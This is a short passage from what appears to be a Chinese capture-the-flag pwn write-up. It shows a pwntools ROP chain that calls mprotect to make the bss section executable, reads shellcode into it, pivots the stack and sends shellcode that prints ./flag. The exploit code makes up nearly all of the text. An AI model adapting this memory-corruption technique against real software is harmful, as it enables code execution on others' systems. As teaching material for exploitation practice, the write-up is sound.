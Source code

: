 **另一种mproetct+shellcode：**

```plain
mp = p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0x1000)+p64(pop_rdx)+p64(7)+p64(mproetct)
#mproetct(bss,0x1000,7)
mp += p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss+0x600)+p64(pop_rdx)+p64(0x300)+p64(elf.plt["read"])
#read(0,bss+0x600,0x300)
mp += p64(bss+0x600)
#shellcode
mp = mp.ljust(0xb0,b'\0')
mp += p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(mp)

ru(b'Posted Successfully~\n')
sc = asm(shellcraft.cat(b"./flag"))
p.send(sc)
```

‍

![](assets/1701606597-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)附件.zip (0.833 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231116173747-cd45d936-8463-1.zip)
